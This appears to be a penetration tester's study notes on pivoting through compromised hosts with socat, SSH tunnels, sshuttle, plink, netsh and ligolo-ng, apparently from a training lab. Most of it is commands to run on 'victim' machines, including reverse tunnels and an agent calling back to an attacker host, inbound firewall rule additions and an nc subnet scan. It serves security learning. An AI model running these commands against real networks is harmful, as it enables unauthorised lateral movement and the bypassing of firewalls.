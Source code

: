 # Linux Port Forwarding
- look for subnet/dmz
- ``` ip route ```  | ``` ip addr ```
## Socat
- ``` socat TCP-LISTEN:2222,fork TCP:{ip}:22 ```

# SSH tunneling
  
## Local port fw 
- use 2 jump pad and go to target
- useful search port without nmap: ``` for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done ```
- kali -> victim 1 -> victim 2(10.4.xxx) -> victim3(172.16.xxx)
1. initate ssh tunneling in victim 1 ``` ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215 ``` (No shell & )
2. check service if on victim 1``` ss -ntplu ```
 
## Dynamic port fw
- Enable proxychains in kali for more comfortability on ssh tun
1. ``` nano /etc/proxychains4.conf ``` with ``` socks5 {ip of ssh tun entrance} {port of ssh tun entrance} ```
2. run in victim ``` ssh -N -D 0.0.0.0:9999 database_admin@10.4.210.215 ``` 

## REMOTE local port fw
- prob cant go victim 3 with this method but can cure the problem of inbound firewall rule
- **Care** if connected 127.0.0.1/0.0.0.0 will become victim 1 && the the port will be used
1. host ssh server in kali: ``` sudo systemctl start ssh ``` (check: ``` sudo ss -ntplu ```)
2. run remote ssh fw in victim 1``` ssh -N -R 127.0.0.1:{port to be used in kali to connect this}:{victim2 ip}:5432 kali@{kali_ip} ```


## REMOTE dynamic port fw
- run this in victim 1 ``` ssh -N -R 9998 kali@192.168.118.4 ```
- edit proxychains conf
- need to use proxychains as above in kali to run commands
- **care** about

## sshuttle
- need root & py3
1. run simple port forwarding in victim 1 : ``` socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 ```
2. ``` sshuttle -r database_admin@{victim 1 ip}:{victim 1} 10.4.50.0/24 172.16.50.0/24 {subnets}``` 
- works like vpn and setup 
- after success just hold there and keep running | sometimes may not receive much output

# Window Tool
## ssh.exe 
- Low probability have
- using cmd(not pwsh) to see ssh exist or not ``` where ssh ```
1. reverse REMOTE dynamic port ``` ssh -N -R 9998 kali@192.168.118.4 ``` (same as above)
- can use other ways too

## Plink (or Putty)
- Mid Prob
- Allow RDP connection for visual
- If blocked inbound from external and allow self fuck port then can use this way to start a REMOTE local port fw -> use rdp account u found to login thru this port

- Host apache / other python 80 web server to transfer
- Pull plink.exe (inside kali machine library @1.md) to victim
1. run in victim: ``` C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:{kali_port}:127.0.0.1:{to be binded port in victim} {kali ip} ```
2. kali: ``` xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833 ```

## Netsh 
- Requires ADMIN ROOT & CMD
- High Prob (since its network shell e.g. builtin firewal config tool is this)
  
### Simple forwarding
1. open 2222 on victim 1 to connect to victim 2 port 22``` netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.189.64 connectport=22 connectaddress=10.4.189.215 ``` (wont have response so need check with ``` netstat -anp TCP | find "2222" ``` OR ``` netsh interface portproxy show all ```)
  
### If filtered packet 
- Open firewall: ``` netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow ```

#### Clean up
- remove firewall rule ``` netsh advfirewall firewall delete rule name="port_forward_ssh_2222" ```
- remove port fwing ``` netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64 ```

#  ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 
## Proxy (Kali) Setup
1. ``` 
    # Adds a new tun interface to our machine.
    sudo ip tuntap add user kali mode tun ligolo

    # Enables the new interface.
    sudo ip link set ligolo up
    ```
2. ```
    # With the -selfcert flag the tool dynamically 
    # generates self-signed certificates.

    ./proxy -selfcert
    ```
3. (After agent connected): ``` >>session >>start ```
   https://www.calculator.net/ip-subnet-calculator.html?cclass=any&csubnet=24&cip=172.16.184.254&ctype=ipv4&x=Calculate

4.  ```
    sudo ip route add 172.16.5.0/24 dev ligolo
    ```
5.  (Delete)
    ```
    sudo ip route remove 172.16.184.0/24
    ```

## Agent (Victim)
1. ```
    # The IP will be the IP of our Kali VM/attacking machine.
    # The -ignore-cert ignores certificate validation. 
    # This means we won't have any issues with our self-signed certs.

    ./agent -connect 10.10.14.213:11601 -ignore-cert
    ```
